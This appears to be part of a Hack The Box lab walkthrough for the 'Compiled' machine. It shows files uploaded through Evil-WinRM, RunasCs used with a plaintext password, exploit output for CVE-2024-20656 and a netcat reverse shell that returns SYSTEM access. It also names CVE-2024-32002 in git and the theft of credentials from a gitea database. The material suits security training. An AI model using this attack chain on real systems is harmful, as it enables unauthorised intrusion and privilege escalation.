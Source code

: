 ```
Info: Upload successful!
*Evil-WinRM* PS C:\programdata> upload ../../../../../opt/RunasCs.exe
                                        
Info: Uploading /home/wither/Templates/htb-labs/Compiled/../../../../../opt/RunasCs.exe to C:\programdata\RunasCs.exe
                                        
Data: 68948 bytes of 68948 bytes copied
                                        
Info: Upload successful!

```

Then let's exploit them
```
*Evil-WinRM* PS C:\programdata> .\RunasCs.exe Emily 12345678 'C:\Programdata\e.exe'

[+] Junction \\?\C:\c2cb7808-2bfb-4b45-868d-9e00a21ad6dd -> \??\C:\00a2ec86-5840-4b82-bec8-390d2b423ff6 created!
[+] Symlink Global\GLOBALROOT\RPC Control\Report.0197E42F-003D-4F91-A845-6404CF289E84.diagsession -> \??\C:\Programdata created!
[+] Junction \\?\C:\c2cb7808-2bfb-4b45-868d-9e00a21ad6dd -> \RPC Control created!
[+] Junction \\?\C:\c2cb7808-2bfb-4b45-868d-9e00a21ad6dd -> \??\C:\00a2ec86-5840-4b82-bec8-390d2b423ff6 created!
[+] Symlink Global\GLOBALROOT\RPC Control\Report.0297E42F-003D-4F91-A845-6404CF289E84.diagsession -> \??\C:\Programdata\Microsoft created!
[+] Junction \\?\C:\c2cb7808-2bfb-4b45-868d-9e00a21ad6dd -> \RPC Control created!
[+] Persmissions successfully reseted!
[*] Starting WMI installer.
[*] Command to execute: C:\windows\system32\msiexec.exe /fa C:\windows\installer\8ad86.msi
[*] Oplock!
[+] File moved!
```

Then you can get the reverse shell
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.26] 52680
Microsoft Windows [Versi�n 10.0.19045.4651]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\ProgramData\Microsoft\VisualStudio\SetupWMI>cd C:\
cd C:\

C:\>whoami
whoami
nt authority\system
```

# Description

It mainly exploited the `CVE-2024-32002` vulnerability of git to gain a foothold, then enumerated the `gitea` database to obtain the credentials of other users. Finally, it used `CVE-2024-20656` to escalate permissions.